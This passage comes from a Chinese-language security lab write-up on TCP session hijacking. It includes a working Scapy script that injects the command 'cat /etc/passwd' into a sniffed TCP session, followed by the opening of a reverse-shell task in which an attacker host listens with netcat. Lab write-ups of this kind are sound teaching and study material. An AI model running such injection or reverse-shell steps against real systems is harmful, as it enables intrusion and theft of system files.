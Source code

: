 在wireshark中抓到自己的包，成功发送数据`cat /etc/password`:

![image-20220511205323156](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012332075.png)

可以在之后10.9.0.7发回的包中找到返回的`/etc/passwd`中的内容：

![image-20220511205413882](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012332318.png)



### Launching the attack automatically

同理task2:

```python
#!/usr/bin/env python3

from socket import timeout
from scapy.all import *

dpkt = sniff(iface="br-fb6120b59b51", count=150, filter="tcp", timeout=8)
# wrpcap("demo.pcap", dpkt)


n = len(dpkt)-1   # start from dpkt[0]


srcIP = dpkt[n][IP].src
dstIP = dpkt[n][IP].dst
ip = IP(src=srcIP, dst=dstIP)

sportTCP = dpkt[n][TCP].sport
dportTCP = dpkt[n][TCP].dport
seqTCP = dpkt[n][TCP].seq
ackTCP = dpkt[n][TCP].ack
tcp = TCP(sport=sportTCP, dport=dportTCP, flags="A", seq=seqTCP, ack=ackTCP)

data = "cat /etc/passwd\r"

pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)
```

同样可以在wireshark中看到回复的内容：

![image-20220511222506270](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012332499.png)

## Task 4: Creating Reverse Shell using TCP Session Hijacking

攻击者利用TCP Session Hijacking来设置后门，这样他们就可以使用这个后门来方便地进行进一步的破坏。

attacker主机10.9.0.1运行`netcat`监听端口9090：
